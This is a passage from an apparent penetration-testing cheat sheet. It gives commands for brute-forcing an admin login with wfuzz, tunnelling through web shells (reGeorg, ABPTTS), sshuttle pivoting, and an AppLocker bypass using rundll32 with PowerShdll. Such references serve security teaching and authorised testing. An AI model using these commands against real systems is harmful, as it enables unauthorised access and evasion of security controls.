 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
proxychains mysql -u root -p -h 127.0.0.1
proxychains ssh localhost
</pre>

![regeorge3](https://user-images.githubusercontent.com/7115563/33883422-017021fe-df3c-11e7-8f99-f02de5084c02.png)

Reference: https://sensepost.com/discover/tools/reGeorg/

 <a name="abptts"><b> 2. ABBTTS </b>
  
Upload File

![abbtts5](https://user-images.githubusercontent.com/7115563/33883774-6d249ffa-df3d-11e7-9f3f-68bf1e70465f.png)

Config proxychains and create the tunnel

```python abpttsclient.py -c tomcat_walkthrough/config.txt -u http://192.168.1.128/abptts.jsp -f 127.0.0.1:22222/127.0.0.1:22```

Usage

```ssh -p 22222 user@127.0.0.1```

![abbtts7](https://user-images.githubusercontent.com/7115563/33883891-dc2f3c70-df3d-11e7-84e9-ebd9eab9ebee.png)

Reference: https://github.com/nccgroup/ABPTTS



<a name="poor"></a><h3> Man's Poor VPN </h3>

Traffic forward over SSH without needing to ```ssh -D <port>```

<pre>sshuttle -vr user@192.168.207.57 180.46.0.0/16</pre>

![shuttle2](https://user-images.githubusercontent.com/7115563/34785498-a0b5c8c0-f631-11e7-8f3d-75e0ade96275.png)

Proof:

![mantis2](https://user-images.githubusercontent.com/7115563/34785499-a0e7d838-f631-11e7-869f-d6fcdc1051e9.png)

Reference: http://teohm.com/blog/using-sshuttle-in-daily-work/



<a name="windowsad"></a><h2> Windows AD Environment </h2>

<a name="applocker"></a><h3> Bypass Applocker </h3>

<b>1. rundll32</b>

```rundll32.exe PowerShdll.dll,main```

![applocker](https://user-images.githubusercontent.com/7115563/34455568-dfe7d7c6-ed81-11e7-9869-de2d4e92f3aa.png)
  
  Reference: https://github.com/p3nt4/PowerShdll
  
<b>2. Alternative powershell files</b>
```
